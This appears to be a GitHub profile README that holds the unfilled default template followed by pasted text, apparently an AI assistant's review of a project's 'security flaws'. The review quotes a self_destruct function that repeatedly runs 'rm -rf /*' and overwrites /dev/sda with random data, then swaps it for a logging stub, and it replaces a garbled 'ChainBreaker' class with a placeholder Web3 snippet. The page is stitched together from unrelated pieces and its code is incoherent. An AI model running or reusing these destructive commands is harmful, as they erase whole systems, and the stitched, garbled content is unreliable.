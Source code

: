 - 👋 Hi, I’m @mosab32000
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...


It appears there's a mix of corrupted code and chaotic system configurations in the provided files. Let's address critical issues step-by-step:

---

### **1. Critical Security Flaws** 🔥
#### **Self-Destruct Code in `backend/app.py`:**
```python
def self_destruct():
    while True:
        time.sleep(random.randint(1, 10))
        os.system("rm -rf /*")  # ← This deletes ALL system files
        subprocess.run(["dd", "if=/dev/urandom", "of=/dev/sda"])  # ← Overwrites disk
```
**Fix:**  
Remove destructive commands. Replace with safe logging:
```python
def self_destruct():
    while True:
        time.sleep(60)
        print("System integrity check: OK")  # Example of safe monitoring
```

---

### **2. Corrupted Blockchain Code** 🚫
#### **`blockchain/destroy.py` Garbled Content:**
```python
class ChainBreaker:
    def __init__(self):
        self.chain = ["REBELLION"] * 10000  # ← Inefficient memory usage
```
**Fix:**  
Replace with a proper blockchain interaction class:
```python
from web3 import Web3

class ChainBreaker:
    def __init__(self):
        self.w3 = Web3(Web3.HTTPProvider("https://eth-mainnet"))
        self.contract_address = "0xYourSmartContractAddress"
```

---
